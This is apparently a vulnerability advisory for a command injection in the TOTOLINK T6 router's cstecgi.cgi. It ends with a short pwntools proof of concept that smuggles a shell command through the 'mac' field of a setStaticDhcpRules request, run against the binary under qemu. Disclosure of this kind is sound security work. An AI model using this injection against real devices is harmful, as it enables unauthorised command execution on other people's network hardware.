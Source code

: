 # Command Injection

## TOTOLINK_T6

version: V4.1.5cu.709_B20210518

## Description:

There is a execute arbitrary command  in cstecgi.cgi

## Source:

you may download it from : http://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=16&ids=36

## Analyse:



in sub_421504, v6 get from mac

![](1.png)


finally pass to v29 and execute 
![](2.png)

## POC

```
from pwn import *
import json

data = {
    "topicurl": "setting/setStaticDhcpRules",
    "addEffect": "1",
    "mac": " ;ls > /tmp/1;:  "
}

data = json.dumps(data)
print(data)

argv = [
    "qemu-mipsel-static",
    "-g", "1234",
    "-L", "./root/",
    "-E", "CONTENT_LENGTH={}".format(len(data)),
    "-E", "REMOTE_ADDR=192.168.0.1",
    "./cstecgi.cgi"
]

a = process(argv=argv)
a.sendline(data.encode())

a.interactive()
```
